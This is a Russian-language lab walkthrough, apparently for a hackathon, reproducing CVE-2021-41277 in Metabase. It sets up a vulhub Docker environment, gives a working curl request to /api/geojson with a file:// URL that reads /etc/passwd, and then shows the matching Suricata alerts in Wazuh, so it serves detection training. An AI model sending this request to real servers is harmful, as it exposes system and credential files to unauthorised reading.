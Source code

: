 # CVE-2021-41277

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2021-41277](https://nvd.nist.gov/vuln/detail/CVE-2021-41277)
* [https://www.opencve.io/cve/CVE-2021-41277](https://www.opencve.io/cve/CVE-2021-41277)

Metabase — это платформа для анализа данных с открытым исходным кодом. В уязвимых версиях была обнаружена проблема безопасности с поддержкой пользовательской карты GeoJSON (admin->settings->maps->custom maps->add a map) и возможным использованием и выполнением локальных файлов (включая переменные среды). Эта проблема исправлена ​​в новой версии обслуживания (0.40.5 и 1.40.5), а также во всех последующих версиях.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/metabase/CVE-2021-41277

Для запуска уязвимой среды выполните команду:

```
docker compose up -d 
```

После запуска по адресу http://ваш-ip:3000 будет доступна стартовая страница Metabase

<figure><img src="../../.gitbook/assets/cve-2021-41277(1).png" alt=""><figcaption></figcaption></figure>

Заполните следующую информацию произвольной информацией, она не влияет на реализацию уязвимости

<figure><img src="../../.gitbook/assets/cve-2021-41277(2).png" alt=""><figcaption></figcaption></figure>

Чтобы реализовать уязвимость и прочитаь файл /etc/passwd, выполните следующую команду:

```
curl -v http://ваш-ip:3000/api/geojson?url=file:////etc/passwd
```

<figure><img src="../../.gitbook/assets/cve-2021-41277(3).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/cve-2021-41277(4).png" alt=""><figcaption></figcaption></figure>
